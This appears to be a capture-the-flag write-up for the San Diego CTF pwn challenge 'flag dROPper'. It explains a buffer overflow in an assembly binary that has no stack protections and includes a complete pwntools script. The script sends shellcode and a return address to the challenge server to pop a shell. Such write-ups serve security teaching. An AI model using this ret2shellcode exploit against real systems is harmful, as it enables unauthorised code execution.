




## San Diego CTF: flag dROPper [pwn]
##### *tl;dr: buffer overflow -> ret2shellcode*


## Challenge Information
#### For this easy level pwnable, we were given a binary that had little security protections enabled (NX disabled, no canary, partial RELRO, no PIE, has RWX segments). The challenge description also hints at the binary being coded in assembly and opening it with GHIDRA proves to be the case:



## Vuln Recon
#### Instead of the usual printf/fgets from the C library, the program uses read/write syscalls to do the I/O. The decompiled code might be confusing since all we see is `syscall()`s, analyzing the assembly code allows us to narrow what it does to the following lines of code:

```c
void main(void) {

	write(stdout, message, 0x4b);
	write(stdout, catch, 0x11);
	read(stdin, buffer, 0xc8);
	write(stdout, buffer, 0x40);
}
```
#### `message`, `catch`, and `buffer` are global variables which store the both of the introductory messages and our input respectively. What we should be interested in is that `buffer` starts at `0x6010a4 then ends at 0x6010e3` thus only having `0x3f` size. The program reads in `0xc8` bytes worth of data thus we clearly have a buffer overflow vulnerability. 

## Exploit Plan
#### Further examination of the address where our input is stored also shows that that region of memory has execute permissions.

#### Since that address is not affected by randomization, we can simply write some shellcode and then return to it thus allowing us to pop a shell. 


##### exploit.py
```python
#: CONNECT TO CHALLENGE SERVERS
binary = ELF('./flagDropper', checksec = False)
#libc = ELF('./libc.so.6', checksec = False)

#p = process('./flagDropper')
#p = process('./flagDropper', env = {'LD_PRELOAD' : libc.path})
p = remote("dropper.sdc.tf", 1337)

#: GDB SETTINGS
if args.GDB:
	breakpoints = ['break *0x4005ca']
	gdb.attach(p, gdbscript = '\n'.join(breakpoints))

#: EXPLOIT INTERACTION STUFF
context.arch = 'amd64'

payload = asm(shellcraft.sh())
payload += cyclic(72 - len(payload))
payload += p64(0x6010a4)

#: PWN THY VULNS
p.recvuntil(b'CATCH\nf')
p.sendline(payload)
p.interactive()
```